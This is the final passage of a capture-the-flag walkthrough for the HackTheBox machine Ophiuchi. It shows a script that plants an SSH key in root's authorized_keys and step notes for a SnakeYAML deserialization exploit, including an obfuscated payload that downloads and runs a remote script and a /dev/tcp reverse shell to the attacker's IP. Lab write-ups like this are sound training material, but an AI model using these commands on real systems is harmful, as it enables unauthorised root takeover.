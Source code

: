 ```bash
#!/bin/bash

echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDTPStNXPYkx8MbD [...TRIMMED...] sp1icer@kali' >> /root/.ssh/authorized_keys
```

I've trimmed the SSH key out since it's just lots of extra characters for no gain in understanding. Trigger it with `sudo /usr/bin/go run /opt/wasm-functions/index.go` and we're almost done...now just SSH in as root: `ssh -i <key name> root@ophiuchi.htb`.

![Agent Smith laughing.](/assets/images/ophiuchi/agent_smith.gif)

## >> WALK AROUND LIKE YOU OWN THE PLACE

_Wew_, we've done it - we conquered the indomitable Ophiuchi! We rolled our own ~~crypto~~ deserialization exploit, found some credentials that got re-used, and hijacked a relative path to execute some code as root. I hope you've enjoyed this post, I definitely enjoyed writing it for y'all - as always, ~~make sure to like and subscribe~~ keep on keeping on and happy hacking!

\- sp1icer  
      
## >> TL;DR FOR MY LAZY FRIENDS

These were my short-form notes in Obsidian while doing the box.

```
# Steps
1. nmap to see 8080
2. gobuster to find `/yaml`
3. Google search "yaml parser exploit" gets us deserialization article: `https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858`
4. Test PoC, it works
5. Copy file from Medium article's linked GH repo: `https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java`
6. Edit file with changes to get PoC for RCE:
	1. change `package artsploit` to `package sp1icersp1oit`
	2. change `public AwesomeScriptEngineFactory()` to `public sp1icer()`
	3. change payload to `Runtime.getRuntime().exec("ping -c 4 10.10.17.239");`
	4. Save file, compile: `javac sp1icer.java`
	5. Make needed folders: `mkdir sp1icersp1oit` and `mkdir -p META-INF/services/`
	6. move `sp1icer.class` to `sp1icersp1oit`
	7. create file `/META-INF/services/javax.script.ScriptEngineFactory` with one line: `sp1icersp1oit.sp1icer`
7. Change java exploit file to use `rev.sh` instead of single commands
	1. payload: `Runtime.getRuntime().exec("bash -c {echo,Y3VybCBodHRwOi8vMTAuMTAuMTcuMjM5L3Jldi5zaCB8IGJhc2g=}|{base64,-d}|{bash,-i}");` (from Jackson's site)
	2. compile: `javac sp1icer.java`
8. Edit rev.sh to have ping payload
9. Edit rev.sh to have revshell payload: `/bin/bash -i >& /dev/tcp/10.10.17.239/9001 0>&1`
10. RCE as tomcat
11. TTY Upgrade
	1. `python3 -c 'import pty;pty.spawn("/bin/bash");'`
	2. `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'`
	3. `stty raw -echo; fg`
```